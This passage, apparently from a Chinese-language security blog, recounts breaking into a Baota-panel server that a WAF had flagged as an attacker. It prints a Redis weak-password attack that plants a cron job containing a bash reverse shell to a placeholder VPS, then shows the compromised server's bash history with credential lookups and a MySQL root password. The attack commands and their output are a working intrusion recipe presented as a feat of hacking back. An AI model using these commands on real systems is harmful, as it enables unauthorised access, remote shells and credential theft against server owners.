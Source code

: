 - 事实上：这是一个宝塔面板，`8888+888`端口；
- 另一个事实是：这个被WAF报成`4月8日-4月12日攻击IP`的IP， _mysql & redis_ 均为弱口令。
    * _[点击更多以了解redis渗透](https://xz.aliyun.com/t/8018#toc-8){:target="_blank"}_
    
 ```
$ ./redis-cli -h redis_target_ip           
redis_target_ip:6379> get key
(error) NOAUTH Authentication required.
redis_target_ip:6379> 
redis_target_ip:6379> auth 123456
OK
redis_target_ip:6379> get key
(nil)
redis_target_ip:6379> set  xx   "\n* * * * * bash -i >& /dev/tcp/your_vps_target/port 0>&1\n"
OK
redis_target_ip:6379> config set dir /var/spool/cron/
OK
redis_target_ip:6379> config set dbfilename root
OK
redis_target_ip:6379> save
OK
redis_target_ip:6379> quit
```
    
#### # 2x02：bash、Information gathering & Traceability incident

于是我们通过上面步骤获得了服务器权限；_awesome ? next more awesome._

通过在服务器的信息搜集，似乎看到了19年刚刚接触服务器的自己，没有任何嘲讽的意思，所有人都是初学者过来的；

_**NO OFFENCE:-)Thanks**_

- 更加了解linux和linux面板，否则就会显得十分业余，不管你是Development, operation and maintenance or security practitioners；
    * 匮乏的linux知识导致的过多ssh连接：
    ```
    ps -ef|grep ssh|wc -l
    50
    ```
    * 错乱的终端与数据库命令运行：
    ```
    $ cat /home/admin/.bash_history 
    sudo grep wordpress_admin_passwd /root/env.txt
    /usr/local/mysql/bin/mysql -u root -p123456
    sudo su rooe
    sudo su root
    sudo grep mysql_root_passwd /root/env.txt
    mysql
    alias mysql=/usr/local/mysql/bin/mysql
    mysql
    find / -name mysql.sock
    sudo grep mysql_root_passwd /root/env.txt
    msyql
    sudo su root
    grant all privileges on *.* to 'root'@'%' identified by 'pass-hidden';
    grant all privileges on *.* to 'root'@'%' identified by '123456';
    ```
    * 错误的linux权限分配：
    ```
    $ ps -ef|grep root